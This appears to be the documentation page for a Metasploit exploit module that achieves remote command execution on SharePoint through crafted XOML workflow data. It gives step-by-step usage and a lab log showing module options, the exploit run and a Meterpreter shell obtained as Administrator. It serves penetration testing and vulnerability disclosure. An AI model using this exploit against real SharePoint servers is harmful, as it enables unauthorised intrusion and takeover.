 ## Vulnerable Application

This module exploits a vulnerability within SharePoint and it's .NET backend
that allows an attacker to execute commands using specially crafted XOML data
sent to SharePoint via the Workflows functionality.

## Verification Steps

  1. Install the application
  1. Start msfconsole
  1. Do: `use exploit/windows/http/sharepoint_workflows_xoml`
  1. Set the target options (`RHOSTS`, `RPORT` and `SSL`) as appropriate
  1. Set the authentication options (`DOMAIN`, `USERNAME` and `PASSWORD`) as appropriate
  1. Do: `run`
  1. You should get a shell

## Scenarios

### SharePoint 2019 on Server 2016

```
msf5 exploit(windows/http/sharepoint_workflows_xoml) > show options 

Module options (exploit/windows/http/sharepoint_workflows_xoml):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKGROUP        yes       The domain to use for Windows authentication
   PASSWORD   Password1        yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.14   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to the SharePoint application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   administrator    yes       Username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     192.168.159.14   no        The target address


Exploit target:

   Id  Name
   --  ----
   2   Windows Powershell


msf5 exploit(windows/http/sharepoint_workflows_xoml) > exploit

[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Started bind TCP handler against 192.168.159.14:4444
[*] Sending stage (206403 bytes) to 192.168.159.14
[*] Meterpreter session 3 opened (0.0.0.0:0 -> 192.168.159.14:4444) at 2020-03-23 18:11:44 -0400

meterpreter > sysinfo
Computer        : SHRPNT2019-P
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : SHRPNT2019P
Logged On Users : 14
Meterpreter     : x64/windows
meterpreter > getuid
Server username: SHRPNT2019P\Administrator
meterpreter >
```